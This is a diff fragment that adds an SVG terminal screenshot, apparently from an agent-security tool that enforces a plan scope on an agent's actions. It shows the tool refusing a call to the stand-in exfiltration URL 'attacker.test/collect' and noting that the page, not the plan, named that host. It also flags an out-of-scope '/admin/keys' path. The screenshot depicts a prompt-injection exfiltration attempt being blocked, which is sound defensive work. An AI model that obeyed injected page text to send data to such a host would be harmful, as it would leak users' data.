+       <text class="terminal-4181876958-r3" x="536.8" y="776.4" textLength="585.6" clip-path="url(#terminal-4181876958-line-31)">  path '/admin/keys' outside plan prefix '/docs'</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="776.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-31)">
+ </text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="800.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-32)">
+ </text>
+       <text class="terminal-4181876958-r6" x="24.4" y="825.2" textLength="122" clip-path="url(#terminal-4181876958-line-33)">┌────────┐</text>
+       <text class="terminal-4181876958-r6" x="183" y="825.2" textLength="109.8" clip-path="url(#terminal-4181876958-line-33)">⨯ REFUSED</text>
+       <text class="terminal-4181876958-r6" x="292.8" y="825.2" textLength="146.4" clip-path="url(#terminal-4181876958-line-33)">   netpolicy</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="825.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-33)">
+ </text>
+       <text class="terminal-4181876958-r6" x="24.4" y="849.6" textLength="122" clip-path="url(#terminal-4181876958-line-34)">│ \\  // │</text>
+       <text class="terminal-4181876958-r1" x="183" y="849.6" textLength="427" clip-path="url(#terminal-4181876958-line-34)">http://attacker.test/collect?d=link</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="849.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-34)">
+ </text>
+       <text class="terminal-4181876958-r6" x="24.4" y="874" textLength="122" clip-path="url(#terminal-4181876958-line-35)">│--(OO)--│</text>
+       <text class="terminal-4181876958-r4" x="183" y="874" textLength="463.6" clip-path="url(#terminal-4181876958-line-35)">host 'attacker.test' not in plan scope</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="874" textLength="12.2" clip-path="url(#terminal-4181876958-line-35)">
+ </text>
+       <text class="terminal-4181876958-r6" x="24.4" y="898.4" textLength="122" clip-path="url(#terminal-4181876958-line-36)">│ //  \\ │</text>
+       <text class="terminal-4181876958-r4" x="183" y="898.4" textLength="463.6" clip-path="url(#terminal-4181876958-line-36)">the page named this - the plan did not</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="898.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-36)">
+ </text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="922.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-37)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="947.2" textLength="24.4" clip-path="url(#terminal-4181876958-line-38)">▸ </text>
+       <text class="terminal-4181876958-r3" x="24.4" y="947.2" textLength="36.6" clip-path="url(#terminal-4181876958-line-38)">2  </text>
+       <text class="terminal-4181876958-r1" x="61" y="947.2" textLength="134.2" clip-path="url(#terminal-4181876958-line-38)">extract    </text>
+       <text class="terminal-4181876958-r4" x="195.2" y="947.2" textLength="158.6" clip-path="url(#terminal-4181876958-line-38)">schema string</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="947.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-38)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="971.6" textLength="24.4" clip-path="url(#terminal-4181876958-line-39)">▸ </text>
+       <text class="terminal-4181876958-r3" x="24.4" y="971.6" textLength="36.6" clip-path="url(#terminal-4181876958-line-39)">3  </text>
+       <text class="terminal-4181876958-r1" x="61" y="971.6" textLength="134.2" clip-path="url(#terminal-4181876958-line-39)">write_file </text>
+       <text class="terminal-4181876958-r1" x="195.2" y="971.6" textLength="195.2" clip-path="url(#terminal-4181876958-line-39)">notes/summary.md</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="971.6" textLength="12.2" clip-path="url(#terminal-4181876958-line-39)">
+ </text>
+       <text class="terminal-4181876958-r1" x="0" y="996" textLength="24.4" clip-path="url(#terminal-4181876958-line-40)">▸ </text>
+       <text class="terminal-4181876958-r3" x="24.4" y="996" textLength="36.6" clip-path="url(#terminal-4181876958-line-40)">4  </text>
+       <text class="terminal-4181876958-r1" x="61" y="996" textLength="134.2" clip-path="url(#terminal-4181876958-line-40)">report     </text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="996" textLength="12.2" clip-path="url(#terminal-4181876958-line-40)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="1020.4" textLength="732" clip-path="url(#terminal-4181876958-line-41)">────────────────────────────────────────────────────────────</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="1020.4" textLength="12.2" clip-path="url(#terminal-4181876958-line-41)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="1044.8" textLength="122" clip-path="url(#terminal-4181876958-line-42)">3 executed</text>
+       <text class="terminal-4181876958-r6" x="158.6" y="1044.8" textLength="109.8" clip-path="url(#terminal-4181876958-line-42)">1 refused</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="1044.8" textLength="12.2" clip-path="url(#terminal-4181876958-line-42)">
+ </text>
+       <text class="terminal-4181876958-r4" x="0" y="1069.2" textLength="85.4" clip-path="url(#terminal-4181876958-line-43)">trace  </text>
+       <text class="terminal-4181876958-r3" x="85.4" y="1069.2" textLength="744.2" clip-path="url(#terminal-4181876958-line-43)">.bridgeline/runs/522ffb76d9434f1c804e6754d50659a7/trace.jsonl</text>
+       <text class="terminal-4181876958-r1" x="1122.4" y="1069.2" textLength="12.2" clip-path="url(#terminal-4181876958-line-43)">
</text>
    </g>
  </g>
</svg>
